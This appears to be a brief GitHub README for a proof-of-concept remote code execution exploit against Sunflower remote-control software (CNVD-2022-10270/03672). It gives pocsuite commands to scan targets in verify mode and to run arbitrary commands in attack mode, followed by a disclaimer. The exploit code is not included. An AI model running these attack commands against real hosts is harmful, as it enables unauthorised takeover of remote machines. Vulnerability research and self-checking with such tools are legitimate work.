 # sunflower_RCE_POC（CNVD-2022-10270/CNVD-2022-03672）
## 2022-03-04
### think@f0ng
en_sunflower_RCE_POC
POC:pocsuite -r en_sunflower_RCE_POC.py -u url --verify --thread 10
![1645599856(1)](https://user-images.githubusercontent.com/54984589/155274394-b8e92e9e-d860-4578-9bf1-fd6ca2b2dd5e.png)

EXP:pocsuite -r en_sunflower_RCE_POC.py -u url --attack --command [command]
![1645600033(1)](https://user-images.githubusercontent.com/54984589/155274717-cc23aa93-7a56-4ecd-a8a6-10719647f37f.png)


# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
